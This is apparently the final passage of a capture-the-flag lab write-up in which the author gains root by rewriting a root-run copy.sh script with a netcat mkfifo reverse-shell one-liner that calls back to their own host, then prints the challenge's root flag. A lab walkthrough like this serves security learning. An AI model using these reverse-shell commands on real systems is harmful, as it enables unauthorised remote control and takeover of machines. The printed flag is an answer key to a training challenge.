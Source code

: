 Lets check the `copy.sh` which gets executed:

```bash
www-data@THM-Chal:/etc$ cat copy.sh
cat copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```
Okay this is very cool, after analyzing the script, it does the following:

- It first cleans up and creates a named pipe.
- It then sets up a listening netcat connection that allows remote execution of shell commands.
- Any command executed in the shell is sent back to the attacking machine (192.168.0.190:5554), and the results are returned to the original terminal.


So we just have to change the `ip` address to ours, to get another `reverse shell`: 

``` bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.110.106 4445 >/tmp/f" > copy.sh
```

And we need to listen of course: 
```bash
└─$ nc -nlnp 4445 10.10.137.66
/bin/sh: 0: can't access tty; job control turned off
# 
```

We are connetected as `root`!!!! Lets get the `root flag`:
```bash

root@THM-Chal:/etc# cd /
cd /
root@THM-Chal:/# cd root
cd root
root@THM-Chal:~# ls
ls
root.txt
root@THM-Chal:~# cat root.txt
cat root.txt
THM{6637f41d0177b6f37cb20d775124699f}
root@THM-Chal:~#
```

Answer: `THM{6637f41d0177b6f37cb20d775124699f}`


We solved this CTF :-) 




## Thoughts:

I think this CTF is very nice because you have really several options to solve it. We used the `easiest` way I think, but there were more possibilities to get access! It nice that you dont get big `hints` so you have to figure out your own way. I had `password` for the user very early but had no idea, where I can use it :-) 

What did we learn?
- using `nmap` for scan open ports and versions
- using `nikto` for scanning the page for vulnerabilities
- using `gobuster` for scanning directories
- using `john` for cracking a md5 hash
- using `php reverse shell` to get access to the server



